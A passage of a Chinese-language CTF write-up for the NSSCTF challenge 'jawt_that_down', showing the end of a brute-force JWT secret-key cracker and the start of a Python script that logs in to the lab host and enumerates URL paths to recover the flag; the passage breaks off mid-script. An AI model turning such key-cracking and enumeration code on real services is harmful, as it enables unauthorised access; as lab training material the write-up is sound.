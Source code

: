 ```python
        for attempt in itertools.product(charset, repeat=length):
            count += 1
            secret_key = ''.join(attempt)
            token = generate_jwt(secret_key, payload, alg)
            if count % 10000 == 0:
                print(f"[*] Tried {count} keys so far...")
            if token == signature:
                print(f"[+] Cracked! Secret key: {secret_key}")
                return secret_key
    return None

if __name__ == "__main__":
    charset = string.ascii_letters + string.digits  # Alphanumeric characters
    max_length = 6  # Adjust based on expected key length

    print("[*] Starting JWT cracking...")
    cracked_key = crack_jwt(SIGNATURE, PAYLOAD, ALG, charset, max_length)
    if cracked_key:
        print(f"[+] Successfully cracked the JWT! Secret key: {cracked_key}")
    else:
        print("[-] Failed to crack the JWT.")
```

不过这里两边都没有什么进展, 那也有可能是想多了, 换个思路, 有没有可能用 python 脚本在两秒内直接访问到?

### 脚本枚举

用 python 写了个脚本访问 `/N`, 返回结果是 `S`, 并且下一步要访问 `/S`, 结合靶场, 估计路径就是 flag 了, 前几位应该是 `NSSCTF{`, 写个脚本枚举

```python
#!/usr/bin/env python3
# jawt_that_down.py

import requests

sess = requests.Session()

base_url = 'http://node5.anna.nssctf.cn:26021/'

data = {
    'username': 'AzureDiamond',
    'password': 'hunter2'
}

proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}


def update_cookie():
    response = sess.post(base_url + 'login', data=data, proxies=proxies)
    if response.status_code == 200:
        print("[*] Logged in successfully, cookies updated.")
        return response.cookies
    else:
        raise Exception("Login failed")


def get_flag(cookies, extended_url, attempt):
    while True:
        real_path = base_url + extended_url + '/' + attempt
        response = sess.get(real_path, cookies=cookies, proxies=proxies)
        if response.status_code == 200:
```